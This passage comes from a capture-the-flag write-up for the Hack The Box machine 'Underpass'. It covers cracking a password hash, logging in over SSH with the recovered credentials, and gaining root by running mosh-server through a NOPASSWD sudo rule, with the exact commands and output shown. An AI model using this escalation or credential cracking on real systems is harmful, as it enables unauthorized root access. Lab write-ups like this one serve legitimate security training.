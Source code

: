 So let's try to connect to ssh server with these credentials. It don't work
but it's maybe that the given password is a hash.
We can crack it with [crackstation](https://crackstation.net/) website :

![alt text](/assets/img/posts/2025-09-27-hack-the-box-machine-underpass/7.png)

### SSH 

Now, we can etablish a connection on the ssh server with these credentials : svcMosh:underwaterfriends and find the user flag.

```bash 
svcMosh@underpass:~$ ls
user.txt
svcMosh@underpass:~$ cat user.txt 
835fb7be2b3e4ff14dabb2f9475c2cac
```

### Root flag

we can find wich command we can run with sudo :
```bash
$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```
following this [example](https://medium.com/@momo334678/mosh-server-sudo-privilege-escalation-82ef833bb246) of privilege escalation.

```bash
svcMosh@underpass:~$ sudo /usr/bin/mosh-server


MOSH CONNECT 60001 buHqA9xrHzu1T2gT4kYAOw

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2070]
svcMosh@underpass:~$ MOSH_KEY=buHqA9xrHzu1T2gT4kYAOw mosh-client 127.0.0.1 60001
```
And we obtain a root shell

![alt text](/assets/img/posts/2025-09-27-hack-the-box-machine-underpass/8.png)

